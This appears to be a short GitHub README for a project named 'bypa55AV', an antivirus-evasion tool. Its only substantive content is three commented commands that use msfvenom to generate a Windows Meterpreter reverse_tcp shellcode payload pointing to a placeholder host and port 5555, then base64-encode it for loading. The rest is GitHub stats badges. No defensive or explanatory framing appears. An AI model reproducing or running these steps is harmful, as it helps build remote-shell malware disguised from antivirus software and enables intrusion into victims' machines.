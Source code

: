 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw
// base64 -w 0 -i rev.raw > rev.bs64
// cat rev.bs64
<div align="center">  
![Xiao tsai's GitHub stats](https://github-readme-stats.vercel.app/api?username=xiaotsai&show_icons=true)    
 </div>

<div align="center">  
  <img  src="https://github-readme-streak-stats.herokuapp.com?user=xiaotsai&theme=onedark&date_format=M%20j%5B%2C%20Y%5D" />
</div>


